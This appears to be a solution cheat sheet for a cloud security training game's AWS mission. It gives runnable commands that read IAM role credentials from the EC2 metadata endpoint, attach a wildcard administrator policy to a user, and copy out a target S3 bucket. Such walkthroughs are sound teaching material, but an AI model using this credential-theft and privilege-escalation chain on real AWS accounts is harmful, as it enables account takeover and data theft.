 # Mission 4 cheat sheet


This mission lets users manipulate new EC2 instances in order to become more familiar with security groups, and has a small IAM component.


  * Given: AWS key, AWS secret key, ssh key
  * Variables: $id


$ `aws configure --profile juan`

Set up the credentials for use. Region is always us-east-1 and json output is recommended.


$ `aws --profile juan ec2 describe-instances`

List the existing instances, since it is not possible to list existing s3 buckets. Note the public and private ip addresses as $public_ip and $private_ip. Note the keypair used as $keypair. You may also want to take note of the AMI used, as $ami_id, and the subnet as  $subnet_id.

Visit the public address in browser if you like.


$ `aws --profile juan ec2 describe-security-groups`

Two security groups are available: "filtered", and "allow". The "allow" group will not block you, so you may use it. Note its id as $sg_id.

NB: The programmer would like to highlight the fact that the user's IP is still used, despite the loss of realism, in order to ensure the security of their account. :)


$ `aws --profile juan ec2 run-instances --image-id $ami_id --instance-type t2.micro --subnet-id $subnet_id --security-group-id $sg-id --key-name SauerCloud-mission4-keypair-Evilcorp-Evilkeypair-$id --associate-public-ip-address`

Start a new instances using the "allow" security group, and parameters allowing it to connect to the other instance. You may also create a new keypair yourself. Using "t2.micro" as type serves to ensure you remain in free tier. You need to associate a public ip adddress to ensure you can connect using SSH.


$ `ssh -i ssh_key.pem ec2-user@<new instance public ip>`

Connect into the machine. You may also forward the key into it as well if you want.


$ `ssh -i ssh_key.pem ec2-user@$instance_private_ip`

Connect into the filtered machine from an allowed ip.


## Running commands from the instance

$ `aws iam list-users`

Use the instance's credentials to execute commands.


## Alternative: Get the credentials and load them on your own shell

$ `curl 169.254.169.254/latest/meta-data/iam/security-credentials/SauerCloud-mission4-role-ec2-$id` 

This allows you to get the IAM credentials and write them to your local ~/.aws/credentials file under a named profile.

$ `aws configure --profile mission4-ec2`

Write the access key and secret access key. Add then the security token to your credentials file.

 credentials file

 ---

 [mission4-ec2]
aws_access_key = ASIAXXXXXXXXXXXXX

aws_secret_access_key = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

aws_session_token = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX...XXXXXXXXXXXXX==


## Using the IAM role

$ `aws iam list-users`

List the users of the account. Find the UserName of user juan that you used before. It will be referred to as $juan_name.


$ `vim admin_policy.json`

Write an administrator policy (example follows) to a local .json file.

Example:
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```


$  `aws iam put-user-policy --user-name $juan_name --policy-name admin --policy-document file://admin.json`

Since the instance may put user policies, update the user policy of user juan with the admin policy.


$ `aws --profile juan s3 ls; aws --profile juan s3 sync s3://secgame-mission4-final-s3-$id ./bucket-data`

Download the data in the final bucket.


$ `cat on_buddha.txt`

You win! Decoding the flag is optional.


## Remember

**Delete anything you created before attempting to destroy the mission, especially the new instance! You can, of course, use the console or the CLI for it with your admin profile.**